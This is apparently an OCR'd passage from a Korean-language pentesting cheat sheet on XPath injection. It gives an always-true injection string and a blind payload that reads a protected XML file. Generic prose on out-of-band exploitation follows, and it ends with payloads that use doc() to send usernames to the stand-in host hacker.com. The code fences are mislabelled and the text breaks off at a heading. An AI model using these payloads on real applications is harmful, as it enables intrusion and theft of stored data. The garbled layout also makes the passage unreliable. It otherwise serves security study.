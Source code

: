 ```plaintext
'a' or 'a'='a' or 'a'='a' or 'a'='a' or 'a'='a' or 'a'='a' or 'a'='a' or 'a'='a' or 'a'='a' or 'a'='a
```python
(substring((doc('file://protected/secret.xml')/*[1]/*[1]/text()[1]),3,1))) < 127
```
## OOB Exploitation

### OOB Exploitation (OOB 악용)

Out-of-Band (OOB) 악용은 XPath 삽입 취약점을 통해 원격 서버로 데이터를 노출시키는 기술입니다. 이 기술은 웹 응용 프로그램에서 XPath 쿼리를 실행하는 과정에서 발생하는 취약점을 이용합니다. OOB 악용은 웹 응용 프로그램이 외부 서버와 통신하는 경우에 특히 유용합니다.

### OOB Exploitation Techniques (OOB 악용 기술)

1. OOB 데이터 전송: OOB 악용을 위해 데이터를 외부 서버로 전송하는 방법입니다. 이를 통해 공격자는 원격 서버로 데이터를 노출시킬 수 있습니다.

2. OOB 채널 설정: OOB 악용을 위해 데이터를 수신하는 채널을 설정하는 방법입니다. 이를 통해 공격자는 원격 서버로부터 데이터를 수신할 수 있습니다.

### OOB Exploitation Tools (OOB 악용 도구)

1. Burp Suite: OOB 악용을 위해 Burp Collaborator를 사용할 수 있습니다. 이를 통해 OOB 데이터 전송 및 OOB 채널 설정을 수행할 수 있습니다.

2. XXEinjector: OOB 악용을 위해 XXEinjector 도구를 사용할 수 있습니다. 이 도구는 OOB 데이터 전송 및 OOB 채널 설정을 지원합니다.

### OOB Exploitation Steps (OOB 악용 단계)

1. 취약한 웹 응용 프로그램 식별: 취약한 웹 응용 프로그램을 식별하고 적절한 OOB 악용 기술을 선택합니다.

2. XPath 삽입 취약점 확인: 웹 응용 프로그램에서 XPath 삽입 취약점을 확인합니다.

3. OOB 데이터 전송 또는 OOB 채널 설정: 선택한 OOB 악용 기술을 사용하여 데이터를 전송하거나 채널을 설정합니다.

4. 데이터 노출 확인: 원격 서버로부터 데이터를 노출시키는지 확인합니다.

### OOB Exploitation Countermeasures (OOB 악용 대응책)

1. 입력 유효성 검사: 웹 응용 프로그램에서 입력 데이터의 유효성을 검사하여 XPath 삽입 취약점을 방지합니다.

2. 웹 응용 프로그램 보안 강화: 웹 응용 프로그램의 보안을 강화하여 OOB 악용을 어렵게 만듭니다.

3. 업데이트 및 패치: 웹 응용 프로그램 및 관련 라이브러리를 최신 버전으로 업데이트하고 패치합니다.

4. 웹 방화벽 설정: 웹 방화벽을 설정하여 악의적인 OOB 데이터 전송 및 OOB 채널 설정을 차단합니다.
```python
doc(concat("http://hacker.com/oob/", RESULTS))
doc(concat("http://hacker.com/oob/", /Employees/Employee[1]/username))
doc(concat("http://hacker.com/oob/", encode-for-uri(/Employees/Employee[1]/username)))

#Instead of doc() you can use the function doc-available
doc-available(concat("http://hacker.com/oob/", RESULTS))
#the doc available will respond true or false depending if the doc exists,
#user not(doc-available(...)) to invert the result if you need to
```
### 자동 도구
